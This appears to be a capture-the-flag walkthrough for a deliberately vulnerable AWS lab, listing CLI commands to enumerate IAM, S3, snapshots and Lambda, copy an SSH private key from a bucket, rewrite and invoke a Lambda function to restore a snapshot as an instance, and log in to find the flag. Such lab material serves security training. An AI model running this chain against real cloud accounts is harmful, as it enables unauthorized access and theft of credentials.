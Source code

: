 
## Reconnaissance

1. Assume the "ls-user" role
   ```
   aws configure --profile ls-user
   ```

2. List policies attached to the "ls-user":
   ```
   aws iam list-attached-user-policies --user-name ls-user
   ```

3. List available EC2 snapshots:
   ```
   aws --profile ls-user --region us-east-1 ec2 describe-snapshots --owner-ids self
   ```

   Optional: Attempt to restore the snapshot as the ls-user directly (Will not work)
   ```
   aws ec2 create-volume --snapshot-id <snapshot-id> --availability-zone <availability-zone>
   ```
   
5. List available Lambda functions:
   ```
   aws --profile ls-user --region us-east-1 lambda list-functions
   ```

6. List S3 buckets and their contents:
   ```
   aws --profile ls-user --region us-east-1 s3 ls
   ```

   ```
   aws --profile ls-user --region us-east-1 s3 ls s3://<bucket-name>
   ```

7. Download the SSH key from the S3 bucket:
   ```
   aws --profile ls-user --region us-east-1 s3 cp s3://<bucket-name>/ssh_key.pem ./ssh_key.pem
   chmod 400 ssh_key.pem
   ```

8. List AMIs:
```
aws --profile ls-user --region us-east-1 ec2 describe-images --owners self
```

8. List subnets:
```
aws --profile ls-user --region us-east-1 ec2 describe-subnets
```

9. List security groups:
```
aws --profile ls-user --region us-east-1 ec2 describe-security-groups
```


## Lambda Function Invocation

1. Download the Lambda function code:
   ```
   aws --profile ls-user --region us-east-1 lambda get-function --function-name RestoreSnapshot --query 'Code.Location' --output text | xargs curl -o lambda_function.zip
   ```

2. Update the Lambda function code with the necessary resources discovered during reconnaissance (snapshot ID, AMI ID, subnet ID, security group ID).

3. Zip the updated Lambda function code:
   ```
   zip lambda_function.zip lambda_function.py
   ```

4. Update the Lambda function code:
   ```
   aws --profile ls-user --region us-east-1 lambda update-function-code --function-name RestoreSnapshot --zip-file fileb://lambda_function.zip
   ```

5. Invoke the Lambda function:
   ```
   aws --profile ls-user --region us-east-1 lambda invoke --function-name RestoreSnapshot output.txt
   ```


## Accessing the Restored EC2 Instance

1. List running EC2 instances:
   ```
   aws --profile ls-user --region us-east-1 ec2 describe-instances --filters "Name=instance-state-name,Values=running"
   ```

2. SSH into the restored EC2 instance:
   ```
   ssh -i ssh_key.pem ec2-user@<public-ip>
   ```

3. Find the flag inside the EC2 instance to complete the scenario.

4. Terminate the EC2 instance once you are done (The "destroy" command will not remove the instance)
   ```
   aws ec2 terminate-instances --instance-ids YOUR_INSTANCE_ID
   ```





